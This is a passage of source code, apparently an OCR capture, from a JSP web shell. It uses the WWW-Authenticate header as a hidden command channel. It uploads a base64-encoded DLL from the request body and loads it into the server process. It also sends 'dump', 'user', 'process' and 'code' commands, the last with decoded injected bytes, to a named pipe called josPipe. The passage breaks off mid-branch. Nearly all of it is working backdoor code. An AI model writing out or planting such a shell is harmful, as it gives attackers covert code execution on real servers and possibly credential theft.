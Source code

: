 ```cpp
    private void RuntimeLoad(String path){
        Runtime.getRuntime().load(path);
    }

    private void SystemLoad(String path){
        System.load(path);
    }

    private void NativeLoad(String path) throws Exception{
        Class Native = Class.forName("com.sun.glass.utils.NativeLibLoader");
        if(Native != null){
            java.lang.reflect.Method Load = Native.getDeclaredMethod("loadLibrary",String.class);
            Load.invoke(path);
        }
    }
//</jsp:declaration>
%>

<%
    String pipeName = "\\\\.\\pipe\\josPipe";
    try{
        String method = request.getHeader("WWW-Authenticate");
        if(method == null){
            out.println("Start");
            return;
        }
        if (method.equals("load")){
            ServletInputStream stream = request.getInputStream();
            String file =  UploadBase64DLL(stream);
            RuntimeLoad(file);
        }else if (method.equals("dump")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x02);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("process")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x00);
            pipe.write(request.getHeader("Content-Method").getBytes());
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("user")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x03);
            if(pipe.readByte() == 0x01){
                out.println("OK");
            }else{
                out.println("Failed");
            }
            pipe.close();
        }else if (method.equals("code")){
            RandomAccessFile pipe = new RandomAccessFile(pipeName, "rw");
            pipe.write(0x01);
            pipe.write(new sun.misc.BASE64Decoder().decodeBuffer(request.getInputStream()));
            if(pipe.readByte() == 0x01){
```